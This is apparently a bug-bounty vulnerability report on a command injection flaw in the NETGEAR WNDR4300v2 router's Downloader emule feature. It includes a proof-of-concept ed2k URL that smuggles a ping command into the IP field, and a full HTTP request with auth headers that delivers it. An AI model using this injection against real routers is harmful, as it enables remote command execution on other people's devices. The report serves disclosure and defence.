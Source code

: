 Hi, I'm eack from Codesafe team of Legendsec at Qi'anxin Group .
Recently, I discovered that there is a command injection vulnerability in netgear's WNDR4300v2 router. The firmware version tested was v1.0.0.58. The details of the vulnerability are as follows:

Vulnerability location:
In NETGEAR Downloader (BETA), when using emule download, the ip and port parameters are not filtered, resulting in remote command injection.

First you have to make sure that USB is plugged into the router.
Then you need to turn on wireshark to monitor WLAN traffic.
Finally, you can verify the vulnerability by simply capturing, modifying, and replaying the packet through BurpSuite.

The location of the vulnerability in the code:
Because IP and port parameters have a command injection vulnerability.
![2](https://bugcrowd.com/embed/1bcb684f-3706-41a3-89da-e873a1138268/82e99a50-de8b-43c0-9902-1dd01b1536c4)
Poc:
ed2k://|server|192.168.195.132\';ping 192.168.1.8;echo'|8000

Grab this package in BurpSuite and make the following changes:
![3](https://bugcrowd.com/embed/0c554809-16cb-4971-8e22-a37688d2c2b0/b37055c4-6ff2-4268-8547-908de0250fef)
Can be verified by wireshark packet capture:
![4](https://bugcrowd.com/embed/4d19bd56-9945-4212-9233-b3182d65d566/f1a45c32-ae37-4a05-be45-375ec7e9d060)

HTTP Request:

POST /apply.cgi?/GREEN_emule_basic.htm%20timestamp=778486986003 HTTP/1.1
Host: 192.168.1.1
Content-Length: 358
Cache-Control: max-age=0
Authorization: Basic YWRtaW46cGFzc3dvcmQ=
Origin: http://192.168.1.1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.142 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://192.168.1.1/GREEN_emule_basic.htm
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: auth_token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOiI1OTczIiwiaXNzIjoid3d3Lm5ldGdlYXIuY29tIiwic3ViIjoiTW96aWxsYS81LjAgKFdpbmRvd3MgTlQgMTAuMDsgV2luNjQ7IHg2NCkgQXBwbGVXZWJLaXQvNTM3LjM2IChLSFRNTCwgbGlrZSBHZWNrbykgQw==.37588a09eba998aae243f26431b404b0c8922f019cba11ea126ab8cdecbd470c
Connection: close

submit_flag=add_download_item&download_type=emule&save_usb_path=&green_download_open_flag=&enable_green_download=on&download_type_1=emule&download_url=ed2k%3A%2F%2F%7Cserver%7C192.168.195.132%5C%27%3Bping+192.168.1.8%3Becho%27%7C8000&Add=%E6%B7%BB%E5%8A%A0&priority_sel=4&priority_sel=4&priority_sel=4&select_ids=&select_ids_queuen=&priority_val=&file_type=2

